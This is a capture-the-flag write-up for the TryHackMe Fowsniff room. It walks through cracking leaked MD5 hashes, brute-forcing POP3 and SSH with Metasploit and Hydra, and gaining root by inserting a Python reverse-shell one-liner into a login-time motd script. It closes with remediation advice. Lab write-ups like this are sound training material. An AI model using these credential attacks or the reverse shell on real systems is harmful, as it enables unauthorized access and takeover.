





# TryHackMe: Fowsniff CTF

## Overview

This writeup documents the methodology for completing the Fowsniff CTF room on TryHackMe.

- **Platform:** TryHackMe
- **Difficulty:** Easy
- **Room:** Fowsniff
- **Tools used:** Nmap, Metasploit, Hydra, Netcat

## Reconnaissance and Scanning

Deployed the machine and began with an Nmap service and default-script scan to identify the target's exposed services.

```bash
nmap -sC -A "Insert IP" -oN fowSniff.txt
```

**Open Ports**

| Port | Service | Version        |
|------|---------|----------------|
| 22   | SSH     | OpenSSH 7.2p2  |
| 80   | HTTP    | Apache 2.4.18  |
| 110  | POP3    | Dovecot        |
| 143  | IMAP    | Dovecot        |



## Web Enumeration

Based on inspection, a web server is running on port 80
   


Fowsniff's internal system suffered a data breach that resulted in the exposure of employee usernames and passwords: [github.com/berzerk0/Fowsniff](https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt)



## Credential Analysis

1. Copied the contents of the leaked database into a `.txt` file named `fowsniff_leaked.txt`:
   
   ```bash
   nano fowsniff_leaked.txt
   ```
2. Used the following command to keep only the hashes:
   
   ```bash
   sed -n 's/.*://p' fowsniff_leaked.txt > hashes.txt
   ```

   
3. The passwords are MD5 hashes. Using (https://hashes.com/en/decrypt/hash), we decoded/cracked 8 out of 9 hashed passwords:

   ```
   0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
   19f5af754c31f1e2651edde9250d69bb:skyler22
   1dc352435fecca338acfd4be10984009:apples01
   4d6e42f56e127803285a0a7649b5ab11:orlando12
   8a28a94a588a95b80163709ab4313aa4:mailcall
   90dc16d47114aa13671c697fd506cf26:scoobydoo2
   ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
   f7fd98d380735e859f8b2ffbbede5a7e:07011972
   ```


4. Proceeded by creating two files, one for usernames and one for passwords:
   - Users file
     
  
   - Passwords file
     
  
   
## POP3 Enumeration
1. Following room instructions, launched Metasploit from the terminal:
   ```bash
   msfconsole
   ```
2. Since POP3 was open, searched for a relevant exploit 
   ```
   search pop3
   ```


3. Selected the `auxiliary/scanner/pop3/pop3_login` module as guided by the room instructions and proceeded by configuring it
   ```
   use auxiliary/scanner/pop3/pop3_login
   ```


4. Running the module identified a successful login (refer to: 07c - Metasploit successful login)
   


## Initial Access

1. Connected to POP3 using the discovered credentials:
   ```bash
   nc "Insert IP" 110
   ```
   ```
   USER "Insert User"
   PASS "Insert Password"
   LIST          # Retrieve messages
   RETR 1        # Read message 1 (or 2, etc.)
   ```
2. Reading message 1 revealed a temporary SSH password

3. To identify which user the password belonged to, we ran Hydra against the SSH service 
   ```bash
   hydra -L users.txt -p "insert password" ssh://IP ADDRESS
   ```


## Privilege Escalation

After logging in via SSH we checked which groups the user belongs to by running the command "id"
   


Ran the following command to identify files that can be executed by this user:
   ```bash
   find / -group users -type f 2>/dev/null
   ```
   This identified `cube.sh` as a file the user could run 
   


Navigated to the relevant directory and opened the file with a text editor to insert a reverse shell, as instructed by the room guide:
   ```python
   python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("insert your IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
   ```


   This file is included in `/etc/update-motd.d/`, so on the next startup / SSH connection, it triggers a reverse shell.
5. Set up a Netcat listener to catch the incoming connection 
   ```bash
   nc -lvnp 1234
   ```
6. Connection established — running `whoami` confirmed root access.

 ```

## Findings and Remediation

- **Public credential leak:** Employee usernames and MD5 password hashes were publicly available.  
  **Remediation:** Remove exposed data, reset affected passwords, and investigate for unauthorized access.

- **Weak password hashing:** MD5 hashes were cracked easily.  
  **Remediation:** Store passwords with a modern salted hashing algorithm such as Argon2id, bcrypt, or scrypt.

- **Password reuse:** A leaked password authenticated to the POP3 service, while information found in email led to valid SSH access.  
  **Remediation:** Enforce unique passwords, strong password policies, and multi-factor authentication.

- **Insecure file permissions:** A script executed during SSH login was writable by a non-privileged group, allowing escalation to root.  
  **Remediation:** Ensure scripts in `/etc/update-motd.d/` are owned by `root` and writable only by `root`.

## Lessons Learned

- Publicly leaked information can be used to gain access to internal services.
- Cracked credentials should be tested against services identified during enumeration.
- POP3 emails may contain additional credentials or internal operational information.
- Linux group permissions can be as important as file ownership during privilege-escalation enumeration.
- Automatically executed system scripts should always have strict ownership and permissions.

## References

- [TryHackMe](https://tryhackme.com/)
- [Fowsniff leaked credentials file](https://github.com/berzerk0/Fowsniff/blob/main/fowsniff.txt)
- [Nmap documentation](https://nmap.org/book/man.html)
- [Metasploit Framework documentation](https://docs.metasploit.com/)
